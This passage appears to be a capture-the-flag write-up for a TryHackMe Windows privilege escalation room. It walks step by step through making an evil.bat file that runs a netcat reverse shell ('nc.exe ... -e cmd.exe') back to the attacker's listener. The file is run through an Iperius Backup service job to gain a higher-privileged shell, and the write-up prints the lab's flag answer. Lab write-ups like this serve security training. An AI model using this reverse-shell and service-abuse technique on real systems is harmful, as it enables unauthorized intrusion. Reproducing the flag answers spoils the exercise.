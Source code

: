 
![image](https://github.com/user-attachments/assets/5b6d0c01-0c5b-4439-8414-2e4dbf2378ef)

<br>

1.5. Run the whoami command on the connection you have received on your attacking machine. What user do you have?<br>
<code>the-grinch-hack\thegrinch</code><br>

<br>

1.6. What is the content of the flag.txt file?<br>
<code>THM-736635221</code><br>

- Navigated to <code>THM Attackbox</code> virtual machine.<br>
- Looked at the right upper corner.<br>
- Identified my <code>AttackIP</code>:<code>10.10.72.55</code>.<br>
- Launched <code>Command Prompt</code>. I also practiced executing the command <code>ifconfig</code>, and confirmed my <code>AttackIP</code> in the <code>ens5</code> section. If you are using your own virtual machine, you will find it under <code>tun0</code>.<br>
- Set up a listener using <code>nc -nlvp 1337</code>.<br>
-----------------------------------<br>
- Navigated to <code>Aoc_WinPrivEsc</code> virtual machine related to the <code>TargetIP</code>:<code>10.10.203.205</code>.<br>
- Launched <code>notepad</code>.<br>
- Added content to a <code>notepad</code> file named <code>evil.bat</code>.<br>
- <code>@echo off</code><br>
- <code>C:\Users\McSkidy\Downloads\nc.exe -nv 10.10.72.55 1337 -e cmd.exe</code><br>
- Saved <code>evil.bat</code> in the path <code>C:\Users\McSkidy\Desktop</code>.<br>
- Clicked <code>OK</code>.<br>
-----------------------------------<br>
- Launched <code>Iperius Backup</code> application.<br>
- Clicked <code>Create a New Backup Job</code> in the <code>Items</code> tab.<br>
- Clicked <code>Add/ edit destination folder</code>.<br>
- Clicked <code>Select</code>.<br>
- Chose <code>C:\Users\McSkidy\Documents</code>.<br>
- Clicked <code>OK</code>.<br>
-----------------------------------<br>
- Navigated to the <code>Destinations</code> tabtab.<br>
- Clicked <code>Add/ edit destination folder</code>.<br>
- Clicked <code>Select</code>.<br>
- Chose <code>C:\Users\McSkidy\Desktop</code>.<br>
- Clicked <code>OK</code>.<br>
-----------------------------------<br>
- Navigated to the <code>Other processes</code> tab.<br>
- Toggled <code>Run a program or open external file</code>.<br>
- Clicked <code>Select</code>.<br>
- Chose <code>C:\Users\McSkidy\Desktop\evil.bat</code>.<br>
- Clicked <code>Open</code>.<br>
- Clicked <code>Next</code>.<br>
- Clicked <code>OK</code>.<br>
- A new <code>Backup job</code> was created, named <code>Documents</code>.<br>
- Right-clicked <code>Documents</code>.<br>
- Clicked <code>Run backup as service</code>.<br>
- Clicked <code>Yes</code>.<br>
-----------------------------------<br>
- Navigated to <code>THM Attackbox</code> virtual machine.<br>
- Executed <code>whoami</code>.<br>
- Navigated to <code>c:\Users\thegrinch\Documents</code>.<br>
- Executed <code>type flag.txt</code>.<br>
- Executed <code>type Schedule.txt</code>.</p>
